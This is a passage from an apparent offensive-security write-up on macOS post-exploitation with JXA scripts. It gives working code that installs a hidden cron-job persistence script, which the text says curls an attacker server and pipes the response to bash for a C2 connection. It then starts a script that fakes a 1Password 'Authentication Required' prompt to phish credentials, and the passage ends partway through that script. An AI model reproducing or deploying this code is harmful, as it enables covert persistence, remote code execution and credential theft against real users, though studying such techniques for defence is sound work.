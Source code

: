```js
        var openedFile = currentApp.openForAccess(Path(fileString), { writePermission: true })
        if (overwriteExistingContent) {
            currentApp.setEof(openedFile, { to: 0 })
        }
        currentApp.write(text, { to: openedFile, startingAt: currentApp.getEof(openedFile) })
        currentApp.closeAccess(openedFile)
}
writeTextToFile(cronJobaction, cronFilepath, true)
        
	function chmod(value, path) {
        let a = $({NSFilePosixPermissions:value})
        let p = $(path).stringByStandardizingPath
        let e = $()
        let r = $.NSFileManager.defaultManager
                .setAttributesOfItemAtPathError(a, p, e)
        return r
    }     

//Write cronjob change to allow execution
var cronTask =  `echo "$(echo '0 */4 * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" | crontab - `
      
currentApp.doShellScript(cronTask)
chmod(0o755,cronFilepath)

output += "CronJob Persistence intalled at " + cronFilepath 

}catch(error){
       output += error.toString()
		}
```
You can test the script using: `osascript script.js`

The previous script creates a hidden file in the directory userHome + "/Public/Drop\ Box/.share.sh". In this case, the content of this hidden file is a curl request to a server controlled by the attacker with a pipe to execute it with bash. This action executes the malicious payload that will generate a new connection to the C2.
Next, we can see in the cronTask variable the line that will be added to cron, which in this case is the execution of the hidden file every 4 hours.

Interesting, right? Well, this functionality has allowed me to carry out other tasks aside from persistence, as I will show you next.

## Kindly request the credentials
During the discovery phase, I was able to confirm that the user was using 1Password for password management. So, I thought about kindly asking for them with the following script:

```js
ObjC.import('Foundation')
var currentApp = Application.currentApplication();
currentApp.includeStandardAdditions = true;

let config = [];
var output = "";
let passwordicon = "/Applications/1Password.app/Contents/Resources/icon.icns";
let passwordIconexistsCheck = $.NSFileManager.alloc.init.fileExistsAtPathIsDirectory(passwordicon,"")
if (passwordIconexistsCheck == true){
  var icon = passwordicon;
  var title = "Authentication Required";
  var text = "Authenticate to unlock 1Password";
} else {
    var icon = "/System/Library/PrivateFrameworks/PreferencePanesSupport.framework/PlugIns/AdvertisingExtension.appex/Contents/Resources/icon.icns";
```
